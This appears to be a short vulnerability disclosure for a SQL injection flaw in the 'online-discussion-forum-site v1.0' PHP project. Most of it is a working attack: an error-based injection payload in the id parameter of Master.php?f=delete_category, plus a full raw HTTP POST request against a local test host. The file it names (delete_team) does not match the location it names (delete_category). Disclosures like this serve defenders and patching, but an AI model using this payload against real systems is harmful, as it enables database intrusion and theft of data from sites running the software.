# online-discussion-forum-site v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15337/online-discussion-forum-site-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /odfs/classes/Master.php?f=delete_team

Vulnerability location:/odfs/classes/Master.php?f=delete_category, id

[+] Payload: 2'and/**/extractvalue(1,concat(char(126),database()))and'

Tested on Windows 10, XAMPP

```
POST http://192.168.2.102/odfs/classes/Master.php?f=delete_category HTTP/1.1
Host: 192.168.2.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.5,zh-HK;q=0.3,en-US;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://192.168.2.102
Connection: close
Referer: http://192.168.2.102/odfs/admin/?page=categories
Cookie: PHPSESSID=vpohrtulukshjgjlje1jbeavrj

id=2'and/**/extractvalue(1,concat(char(126),database()))and'
```

![]([https://github.com/mikeccltt/0525/blob/main/online-discussion-forum-site/sql.gif?raw=true)

